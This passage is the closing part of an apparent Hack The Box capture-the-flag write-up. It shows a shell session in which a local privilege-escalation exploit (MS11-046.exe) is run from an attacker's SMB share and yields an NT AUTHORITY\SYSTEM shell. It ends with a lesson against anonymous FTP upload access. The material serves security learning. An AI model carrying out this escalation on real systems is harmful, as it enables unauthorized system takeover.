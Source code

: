 	c:\windows\system32\inetsrv>\\10.10.14.31\share\MS11-046.exe
	\\10.10.14.31\share\MS11-046.exe

	c:\Windows\System32>whoami
	whoami
	nt authority\system

Did we just do it?! I think we did. Amazing! Now we just have to get the root.txt and user.txt files, but still.. congratulations!

## Conclusion

In hindsight, this HTB shows that allowing the ability to login to an FTP server anonymously is a big no-no. Because if an attacker has access to an FTP server and finds out that they can upload and interact with malicious files, they'll have no trouble with gaining system access.

